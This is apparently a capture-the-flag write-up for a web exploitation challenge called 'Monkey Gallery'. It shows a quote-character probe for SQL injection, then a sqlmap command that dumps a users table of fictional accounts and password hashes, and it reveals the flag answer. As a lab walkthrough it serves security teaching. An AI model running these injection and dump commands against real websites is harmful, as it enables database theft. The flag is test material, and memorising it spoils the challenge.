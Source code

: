 # Monkey Gallery Challenge 

## Description
The Monkey Gallery is a passion project created by an eccentric zoologist... but rumors say it’s more than just a harmless tribute to primates.

Sources suggest that the gallery's backend was slapped together in a hurry, and not all monkeys were meant to be seen. Some are part of a hidden experiment, and their records are locked deep within a private database table.

**Your mission:**<br>
Can you uncover the truth buried in the database?

Start by investigating how the site loads a monkey’s profile. Try accessing different monkeys using the URL path: <br>
**http://200.200.200.40:3000/monkey/{id}**

You might notice something odd when you experiment with certain `id` values — and maybe, just maybe, you can speak directly to the database…

🎯 Objective: 
Find the password for a mysterious user named "flaghunter" hiding deep within the database.

Good luck. Monkeys are watching. 

**Submission Format**: <br>
ICO2025{password}

## Category
Web Exploitation

## Points
50

## **Solution**:
The first thing I did was running this command. It made me realise that I didn't even have to visit the website in a browser... There was SQL injection in the URL.
```bash
curl "http://200.200.200.40:3000/monkey/1'"
```
Since it threw an error. The solution was then to
```bash
sqlmap -u "http://localhost:3390/monkey/1*" --dump --batch
```
Whice gave me this:
``` 
Table: monkey_users_999
[7 entries]
+----+------------------------+---------------------------------+---------------------------------+-------------------------------------------+--------------+-----------+------------+
| id | email                  | avatar                          | address                         | password                                  | username     | last_name | first_name |
+----+------------------------+---------------------------------+---------------------------------+-------------------------------------------+--------------+-----------+------------+
| 1  | ethan.h@example.com    | https://example.com/monkey2.jpg | 42 Phantom Lane, Darknet        | 196cc593c7d89eda4116228ef61bc667          | CyberPhantom | Hawke     | Ethan      |
| 2  | alex.rogue@example.com | https://example.com/monkey3.jpg | 88 Cyberspace Blvd, Hacker City | 729d0923965c623fccdd11b98af0691f          | ByteBandit   | Rogue     | Alex       |
| 3  | lena.q@example.com     | https://example.com/monkey4.jpg | 7 Uncertainty St, Quantum Realm | b3e13b88de438d41985a0912cbbb1cb4          | QuantumFuzz  | Quark     | Lena       |
| 4  | felix.g@example.com    | https://example.com/monkey5.jpg | 404 Not Found Ave, Internet     | be199d24412bf97492ac59f8d9099969          | GlitchWizard | Glitchman | Felix      |
| 5  | ivy.cipher@example.com | https://example.com/monkey6.jpg | 1337 Hidden Path, Deep Web      | 8651a7e3033f338adc6b90aaacaa3586          | ShadowCipher | Cipher    | Ivy        |
| 6  | noah.m@example.com     | https://example.com/monkey7.jpg | 77 Virtual St, Cyberworld       | 60694de09f51c3f50662cedee408a8bd          | NeonNexus    | Metaverse | Noah       |
| 7  | wolf@example.com       | https://example.com/monkey1.jpg | 123 Admin Street, Root City     | e4c8ee13cd1c42ba878f499317880c3b (**ananab**) | FlagHunter   | Wolf      | John       |
+----+------------------------+---------------------------------+---------------------------------+-------------------------------------------+--------------+-----------+------------+
```
Apparently, it cracked the user hash itself. So the flag was:
**ICO2025{ananab}**